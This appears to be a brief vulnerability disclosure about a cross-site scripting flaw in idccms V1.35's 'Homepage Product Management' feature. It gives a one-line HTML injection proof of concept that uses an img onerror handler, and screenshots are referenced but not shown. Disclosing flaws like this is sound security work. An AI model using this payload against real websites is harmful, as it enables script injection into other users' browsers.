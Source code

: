 
target:http://idccms.com/
version: V1.35

There is Cross-Site Scripting (XSS)  vulnerability within the 'Homepage Product Management' .

![图片1](1.png)

poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![图片](2.png)
